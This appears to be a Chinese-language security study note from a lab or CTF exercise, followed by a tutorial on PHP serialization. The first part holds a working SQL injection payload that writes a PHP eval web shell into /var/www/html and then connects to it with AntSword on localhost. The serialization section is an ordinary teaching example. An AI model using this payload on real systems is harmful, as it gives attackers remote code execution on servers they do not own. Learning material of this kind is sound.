 ![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732608135154-448c1b0b-fa0a-454f-8721-5622e565e642.png)

通过询问，明白了原因。访问网站本质是对服务器下的目录进行访问，而有些目录是不允许被访问，而有些目录是默认被允许访问的，比如 /var/www/html 

```sql
1' union select 1,2,"<?php eval($_POST['a']);?>" into outfile '/var/www/html/1.php'#
```

之后蚁剑链接

```sql
url格式是：
http://127.0.0.1:63920/1.php
```

a

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732613186383-63c9564c-c396-471b-93a0-525e0e2af6b4.png)

## 序列化和反序列化
### 序列化
#### 定义：
有时需要把一个对象在网络上传输，为了方便传输，可以**把整个对象转化为二进制串**，等到达另一端时，再还原为原来的对象，这个过程称之为**串行化**(也叫**序列化**)。

#### 相关函数：
PHP序列化：把对象转化为二进制的**字符串**，使用`serialize()`函数  
PHP反序列化：把对象转化的二进制字符串再转化为**对象**，使用`unserialize()`函数  

#### 举例：
```php
<?php
class User
{
    //类的数据
    public $age = 0;
    public $name = '';
    //输出数据
    public function printdata()
    {
        echo 'User '.$this->name.' is '.$this->age.' years old.<br />';
    } // “.”表示字符串连接
}
//创建一个对象
$usr = new User();
//设置数据
$usr->age = 18;
$usr->name = 'Hardworking666';
//输出数据
$usr->printdata();
//输出序列化后的数据
echo serialize($usr)
?>
```
